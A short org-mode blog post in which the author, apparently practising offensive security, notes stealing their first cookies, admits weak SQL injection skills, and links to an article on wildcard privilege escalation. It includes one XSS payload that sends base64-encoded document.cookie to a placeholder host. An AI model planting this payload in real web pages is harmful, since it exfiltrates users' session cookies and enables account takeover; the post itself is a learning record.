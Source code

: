 
#+STARTUP: showall indent
#+STARTUP: hidestars
#+OPTIONS: num:nil toc:nil
#+BEGIN_EXPORT html
---
title:  Stealing all the Cookies...
categories:
  - blog
tags:
    - SQLi
    - XSS
---
#+END_EXPORT

So today I stoal my first cookies... yeah, this is something I need to remember:

~<script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>~

Nevertheles I was directly humbled afterwards as I have seen that the SQLi basics are definetly not that good on my side and that
without SQLmap I'm quite helpless.

Furthermore I discoverd that even wildcards can be quite dangerous in script
Unbeliveable what you have to avoid :)

https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
